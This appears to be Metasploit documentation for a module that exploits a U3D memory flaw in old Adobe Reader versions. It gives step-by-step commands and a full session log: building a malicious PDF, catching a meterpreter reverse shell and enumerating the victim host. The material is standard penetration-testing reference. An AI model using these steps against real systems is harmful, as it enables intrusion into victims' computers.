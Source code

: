 ## Vulnerable Application

This module exploits a vulnerability in the U3D handling within versions 9.x through 9.4.6 and 10 through to 10.1.1 of Adobe Reader. The vulnerability is due to the use of uninitialized memory. Arbitrary code execution is achieved by embedding specially crafted U3D data into a PDF document. A heap spray via JavaScript is used in order to ensure that the memory used by the invalid pointer issue is controlled.

Link to vulnerable software (OldVersion)[http://www.oldversion.com/windows/download/acrobat-reader-9-4-0]

## Verification Steps

   1. Install application on the target machine
   2. Start msfconsole
   3. Do: `use [exploit/multi/handler]`
   4. Do: `set payload [windows/meterpreter/reverse_tcp]`
   5. Do: `set LHOST [IP]`
   6. Do: `exploit`
   7. Do: `use exploit/windows/fileformat/adobe_reader_u3d`
   8. Do: `set LHOST [IP]`
   9. Do: `exploit`
   10. Do: `Open PDF on target machine with vulnerable software`

## Scenarios

### A run on Adobe Reader 9.4.0 and Windows XP (5.1 Build 2600, Service Pack 3)

  ```
  msf > use exploit/windows/fileformat/adobe_reader_u3d
  msf exploit(windows/fileformat/adobe_reader_u3d) > set FILENAME myFile.pdf
    FILENAME => myFile.pdf
  msf exploit(windows/fileformat/adobe_reader_u3d) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(windows/fileformat/adobe_reader_u3d) > exploit

    [*] Creating 'myFile.pdf' file...
    [+] myFile.pdf stored at /root/.msf4/local/myFile.pdf
  msf exploit(windows/fileformat/adobe_reader_u3d) > use exploit/multi/handler
  msf exploit(multi/handler) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf5 exploit(multi/handler) > exploit

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] Sending stage (180291 bytes) to 192.168.1.5
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.5:1103) at 2019-12-05 18:01:07 -0700
  meterpreter > sysinfo
    Computer        : COMPUTER_1
    OS              : Windows XP (5.1 Build 2600, Service Pack 3).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
  meterpreter > getuid
    Server username: COMPUTER_1\USER
  meterpreter > run post/windows/gather/enum_applications

    [*] Enumerating applications installed on COMPUTER_1

    Installed Applications
    ======================

    Name                Version
    ----                -------
    Adobe Reader 9.4.0  9.4.0


    [+] Results stored in: /root/.msf4/loot/20191205180436_default_192.168.1.5_host.application_540854.txt
  ```
